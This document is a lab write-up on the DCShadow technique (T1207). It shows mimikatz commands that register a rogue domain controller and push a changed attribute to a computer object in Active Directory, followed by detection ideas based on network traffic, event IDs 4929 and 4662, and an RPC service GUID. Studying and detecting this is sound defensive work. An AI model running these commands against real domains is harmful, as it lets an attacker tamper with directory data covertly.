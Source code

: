 # T1207: DCShadow -  Becoming a Rogue Domain Controller

DCShadow allows an attacker with enough privileges to create a rogue Domain Controller and push changes to the DC Active Directory objects.

## Execution

For this lab, two shells are required - one running with `SYSTEM` privileges and another one with privileges of a domain member that is in `Domain admins` group:

![](../../.gitbook/assets/dcshadow-privileges.png)

In this lab, I will be trying to update the AD object of a computer `pc-w10$`. A quick way to see some of its associated properties can be achieved with the following powershell:

```csharp
PS c:\> ([adsisearcher]"(&(objectCategory=Computer)(name=pc-w10))").Findall().Properties
```

![](../../.gitbook/assets/dcshadow-computer-properties.png)

Note the `badpwcount` property which we will try to change with DCShadow by setting the value to 9999:

{% code title="mimikatz@NT/SYSTEM console" %}
```csharp
mimikatz # lsadump::dcshadow /object:pc-w10$ /attribute:badpwdcount /value=9999
```
{% endcode %}

We can now push the change to the primary Domain Controller `DC-MANTVYDAS`:

{% code title="mimikatz@Domain Admin console" %}
```csharp
lsadump::dcshadow /push
```
{% endcode %}

Below are the screenshots of the above commands and their outputs as well as the end result, indicating the `badpwcount`value getting changed to 9999:

![](../../.gitbook/assets/dcshadow-computer-properties-changed.png)

## Observations

As suggested by Vincent Le Toux who co-presented the [DCShadow](https://www.youtube.com/watch?v=KILnU4FhQbc), in order to detect this type of rogue activity, you could monitor the network traffic and suspect any non-DC hosts \(our case it is the PC-W10$ with `10.0.0.7`\) issuing RCP requests to DCs \(our case DC-MANTVYDAS with `10.0.0.6`\) as seen below:

![](../../.gitbook/assets/dcshadow-traffic.png)

Same for the logs, if you see a non-DC host causing the DC to log a `4929` event \(Detailed Directory Service Replication\), you may want to investigate what else is happening on that system:

![](../../.gitbook/assets/dcshadow-logs.png)

Current implementation of DCShadow in mimikatz creates a new DC and deletes its associated objects when the push is complete in a short time span and this pattern could potentially be used to trigger an alert, since creation of a new DC, related object modifications and their deletion all happening in 1-2 seconds time frame sound anomalous. Events `4662` may be helpful for identifying this:

![](../../.gitbook/assets/dcshadow-createobject.png)

![](../../.gitbook/assets/dcshadow-delete1.png)

![](../../.gitbook/assets/dcshadow-delete2.png)

Per [Luc Delsalle](https://blog.alsid.eu/@lucd?source=post_header_lockup)'s post on DCShadow explanation, one other suggestion for detecting rogue DCs is the idea that the computers that expose an RPC service with a GUID of `E3514235–4B06–11D1-AB04–00C04FC2DCD2`, but do not belong to a `Domain Controllers` Organizational Unit, should be investigated.

We see that our suspicious computer exposes that exact service:

![](../../.gitbook/assets/dcshadow-services.png)

..but does not belong to a `Domain Controllers` OU:

```csharp
([adsisearcher]"(&(objectCategory=computer)(name=pc-w10))").Findall().Properties.distinguishedname
# or
(Get-ADComputer pc-w10).DistinguishedName
```

![Outputs for computer NOT belonging to DC OU and one belonging, respecitvely](../../.gitbook/assets/dcshadow-ou-dc.png)

## References

Below are the resources related to DCShadow attack. Note that there is also a link to youtube by a security company Alsid, showing how to dynamically detect DCShadow, so please watch it.

{% embed url="https://attack.mitre.org/wiki/Technique/T1207" caption="" %}

{% embed url="https://www.dcshadow.com/" caption="" %}

{% embed url="https://www.youtube.com/watch?v=KILnU4FhQbc" caption="" %}

{% embed url="https://www.youtube.com/watch?v=yWFUKwZaT\_4" caption="Dynamic Detection of DCShadow" %}

{% embed url="https://github.com/AlsidOfficial/UncoverDCShadow" caption="" %}

{% embed url="http://www.labofapenetrationtester.com/2018/04/dcshadow.html" caption="" %}

{% embed url="https://blog.alsid.eu/dcshadow-explained-4510f52fc19d" caption="" %}

